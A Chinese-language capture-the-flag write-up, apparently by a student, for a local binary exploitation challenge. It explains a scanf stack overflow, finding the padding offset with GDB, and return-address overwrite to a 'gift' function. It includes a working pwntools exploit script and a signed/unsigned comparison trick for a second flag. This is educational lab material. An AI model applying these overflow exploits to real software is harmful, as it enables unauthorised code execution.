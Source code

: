 ![image-20220405212609948](https://s2.loli.net/2022/04/05/qsAlN2kCvxVctpD.png)

在这个Input size里，可以使用了scanf函数，存在着栈溢出漏洞，通过利用漏洞可以覆盖返回地址进行ROP。

![image-20220405215350432](https://s2.loli.net/2022/04/05/LhGjdSCrxKUIla8.png)

通过分析scanf输入的变量可知，v3存在距离rbp（栈底）偏移8个字节的地方，也就是说只要把着8个字节覆盖掉，再覆盖掉一个old rbp（也是8个字节），就能覆盖返回地址了，这样一来就能劫持控制流了。然而理想很美好，现实很骨感，单单覆盖掉8+8个字节并不能成功，这和学长上课时候演示的不一样。因此只能通过GDB打断点调试，看看是那里出了问题，我选择在函数的ret之前打个断点看看栈的填充情况，一看，果然是没填充满栈帧，

![image-20220405223335170](https://s2.loli.net/2022/04/05/TftjcHdZoxSMQYu.png)

观察栈帧和寄存器的值，不停的增加填充量，最后终于填充成功了，变成了31+8（我也不知道为啥是31+8），最后成功覆盖了返回地址，使其跳转到了gift函数的地址

![image-20220405223534611](https://s2.loli.net/2022/04/05/XPYHuZvtD9asMdz.png)

最后成功的拿到Flag2了呢

![image-20220405223722413](https://s2.loli.net/2022/04/05/3iZFLwCWRou2xzg.png)

Flag2代码：

```python
from pwn import *

e = ELF("./pwn")
print(hex(e.address))
p = process("./pwn")

code = '10423'

for i in range(4):
	print(p.recvline())	
p.sendline(code.encode())
print(p.recvline())
print(p.recvline())


f = b'a'*0x31 + b'b'*0x8 + p64(0x4012b6)   #填充量31+8


p.sendline(f)

print(p.recvline())
print(p.recvline())
print(p.recvline())
```



拿到Flag2之后，Flag3就很容易了，只要满足以下条件就能拿到了

![image-20220405224104753](https://s2.loli.net/2022/04/05/XAGhVtk6CWQxiHn.png)

即找到一个数，是之不大于16，同时又大于0x10就可以了，因为第一个判断是把无符号整型转换为了普通整型，所以当你输入一个负数的时候，负数会小于第一个16，而第二个判断还是无符号整型，所以该整型会变成一个非常大的数。然后既可以拿到Flag3啦
